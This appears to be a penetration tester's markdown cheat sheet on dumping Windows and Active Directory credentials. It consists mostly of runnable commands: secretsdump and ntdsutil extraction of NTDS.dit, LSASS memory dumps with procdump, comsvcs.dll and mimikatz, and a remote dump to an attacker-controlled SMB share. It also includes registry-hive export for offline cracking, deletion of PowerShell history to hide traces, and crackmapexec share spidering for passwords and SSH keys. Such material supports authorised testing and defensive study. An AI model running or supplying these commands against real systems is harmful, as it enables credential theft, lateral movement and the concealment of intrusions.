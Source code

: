 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```


### Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    * Via procdump.exe
        ```batch
        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        ```
    * Via Task manager
        * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```
---
## Looking for files in the Domain
* Useful when
    * escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
        * ssh keys
        * password files
        * offline password manager DB files
    * sensitive files in "authenticated" shares
        * Attempting to escalate privileges and pivot to other hosts/networks
* About command:
    * spider = "*" to spider all shares per host
    * long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
    * Edit the `--pattern` for more filename patterns
    
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt
```

[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
